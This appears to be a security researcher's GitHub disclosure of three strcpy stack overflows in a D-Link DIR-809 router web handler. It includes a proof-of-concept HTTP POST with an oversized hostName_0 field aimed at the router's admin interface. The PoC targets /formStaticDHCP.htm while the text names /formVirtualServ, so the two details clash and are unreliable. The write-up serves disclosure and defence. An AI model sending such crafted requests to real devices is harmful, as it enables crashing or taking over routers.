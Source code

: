 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influence the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied to stack using `strcpy` without any check. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_09h01_44](README/2021-05-10_09h01_44.png)

The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 

![2021-05-09_20h27_04](README/2021-05-09_20h27_04.png)

![2021-05-09_20h33_14](README/2021-05-09_20h33_14.png)



## PoC

``` 
POST /formStaticDHCP.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 1718
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Network.asp?t=1620545775523
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=v2F31BZVGw
Connection: close

settingsChanged=0&hostName_0=12312312312312312313*0x200&host_ip_0=192.168.0.101&mac_0=3c22fb4473b4&computer_list_ipaddr_select_0=-1&hostName_1=&host_ip_1=&mac_1=&computer_list_ipaddr_select_1=-1&hostName_2=&host_ip_2=&mac_2=&computer_list_ipaddr_select_2=-1&hostName_3=&host_ip_3=&mac_3=&computer_list_ipaddr_select_3=-1&hostName_4=&host_ip_4=&mac_4=&computer_list_ipaddr_select_4=-1&hostName_5=&host_ip_5=&mac_5=&computer_list_ipaddr_select_5=-1&hostName_6=&host_ip_6=&mac_6=&computer_list_ipaddr_select_6=-1&hostName_7=&host_ip_7=&mac_7=&computer_list_ipaddr_select_7=-1&hostName_8=&host_ip_8=&mac_8=&computer_list_ipaddr_select_8=-1&hostName_9=&host_ip_9=&mac_9=&computer_list_ipaddr_select_9=-1&hostName_10=&host_ip_10=&mac_10=&computer_list_ipaddr_select_10=-1&hostName_11=&host_ip_11=&mac_11=&computer_list_ipaddr_select_11=-1&hostName_12=&host_ip_12=&mac_12=&computer_list_ipaddr_select_12=-1&hostName_13=&host_ip_13=&mac_13=&computer_list_ipaddr_select_13=-1&hostName_14=&host_ip_14=&mac_14=&computer_list_ipaddr_select_14=-1&hostName_15=&host_ip_15=&mac_15=&computer_list_ipaddr_select_15=-1&hostName_16=&host_ip_16=&mac_16=&computer_list_ipaddr_select_16=-1&hostName_17=&host_ip_17=&mac_17=&computer_list_ipaddr_select_17=-1&hostName_18=&host_ip_18=&mac_18=&computer_list_ipaddr_select_18=-1&hostName_19=&host_ip_19=&mac_19=&computer_list_ipaddr_select_19=-1&hostName_20=&host_ip_20=&mac_20=&computer_list_ipaddr_select_20=-1&hostName_21=&host_ip_21=&mac_21=&computer_list_ipaddr_select_21=-1&hostName_22=&host_ip_22=&mac_22=&computer_list_ipaddr_select_22=-1&hostName_23=&host_ip_23=&mac_23=&computer_list_ipaddr_select_23=-1&HNAP_AUTH=9ABC7566FEC3D4A69F750618F1E5EA86 1620545783&submit-url=%2FBasic%2FNetwork.asp

```





## Acknowledgment

Credit to [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/) , [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

